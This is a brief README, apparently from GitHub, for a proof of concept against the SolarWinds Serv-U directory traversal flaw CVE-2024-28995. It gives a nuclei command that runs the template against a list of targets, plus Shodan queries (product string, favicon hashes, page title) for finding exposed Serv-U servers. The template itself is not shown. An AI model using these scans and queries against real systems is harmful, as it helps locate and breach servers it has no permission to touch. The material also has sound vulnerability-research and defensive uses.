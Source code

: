 ## SolarWinds Serv-U Directory Traversal Vulnerability POC

```
cat targets.txt | nuclei -duc -t CVE-2024-28995.yaml 
```
![image](https://github.com/karkis3c/cves/assets/155802810/b90f2020-7c13-4e2f-a755-7efd19a023ef)

## Analysis 
https://t.co/JPCd6Y4v1g

## Shodan Querys

```product:"Rhinosoft Serv-U httpd,rhinosoft serv-u httpd"```

```http.favicon.hash:"812385209,-494622145,-132641984,-2076792107,-1735578509,-938894035,-741511745,-1109617687,963790560,-1882082933"```

```title:"Serv-U"```

## Affected Products
SolarWinds Serv-U 15.4.2 HF 1 and previous versions
